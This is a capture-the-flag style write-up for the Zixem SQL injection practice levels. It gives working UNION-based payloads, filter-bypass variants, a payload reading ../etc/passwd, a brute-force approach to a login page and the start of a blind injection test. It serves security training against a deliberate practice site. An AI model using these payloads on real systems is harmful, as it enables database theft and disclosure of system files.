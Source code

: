## Zixem SQLi

[[Zixem SQLi](http://www.zixem.altervista.org/SQLi/)]

> #### RULES
>
> Use only **UNION BASED!**
>
> Your mission is to select only the **version** & **user** and to **take screenshot** as proof.

## Write Up

#### SQLi challenges

| [Level 1](http://www.zixem.altervista.org/SQLi/level1.php?id=1) | Super Easy |
| ------- | ---------- |

 `?id=-9999 union select version(),user(),3; --`

| [Level 2](http://www.zixem.altervista.org/SQLi/level2.php?showprofile=4) | Easy |
| ------- | ---------- |

 `?showprofile=-9999' union select user(),version(),3,4 -- -`

| [Level 3](http://www.zixem.altervista.org/SQLi/level3.php?item=3) | Medium |
| ------- | ---------- |

 `?item=-9999' unionon select user(),version(),3,4; -- -`

| [Level 4](http://www.zixem.altervista.org/SQLi/level4.php?ebookid=7) | Normal |
| ------- | ---------- |

 `?ebookid=-9999' union select user(),version(),3,4,5; -- -`

| [Level 7](http://www.zixem.altervista.org/SQLi/level7.php?id=1) | Medium |
| ------- | ---------- |

In viewsource mode:
 
 `?id=-9999 union select 1,user(),3 ; -- -`
 
 `?id=-9999 union select 1,version(),3 ; -- -`

| [Level 8](http://www.zixem.altervista.org/SQLi/lvl8.php?id=1) | Hard |
| ------- | ---------- |

 `?id=(-9999)UNION(SselectELECT(user()),version(),3)`

| [Level 9](http://www.zixem.altervista.org/SQLi/lvl9.php?id=1) | Medium |
| ------- | ---------- |

 `?id=-9999' union select('../etc/passwd'),2 ; -- -`

| [Level 10](http://www.zixem.altervista.org/SQLi/lvl10.php?x=ISwwYGAKYAo%3D) | Pro |
| ------- | ---------- |

#### BF challenges

| [Level 5](http://www.zixem.altervista.org/SQLi/login_lvl5.php) | Hard |
| ------- | ---------- |

First, viewsource this login page and scroll down to end, we will find those red lines.

```
If you want hint, enter this password.
------
~~~~~~~~~~~~~~~~~~ password: d1fd6ef9af6cb677e09b1b0a68301e0c ~~~~~~~~~~~~~~~~~~~~~~
You can use my md5Cracker .
~~~~~~~~~~~~~~~~~~~~~~~~here: md5cracker.php~~~~~~~~~~~~~~~~~
```
Then enter this url `http://www.zixem.altervista.org/SQLi/md5cracker.php?hash=d1fd6ef9af6cb677e09b1b0a68301e0c` and we find the first password. Enter it to login page and get hint.

Now we know the passwords contains **only numbers**. Let's make some [code](https://github.com/TraiOi/Wargame_WriteUp/blob/master/Zixem/Zixem_SQLi/bruteforce.py) to bruteforce the login page.

Then we get the password, login and see the result.

#### SQLi-Blind challenges

| [Level 6](http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10) | Expererinced |
| ------- | ---------- |

Test the url:

 `?serial=10 and 1=1` return True
 
 `?serial=10 and 1=0` return False
 
Yes, then we know this is Boolean-based Blind SQL Injection.

All we have:

 * Table : teachers
 
 * Columns : teacher, price, age
 

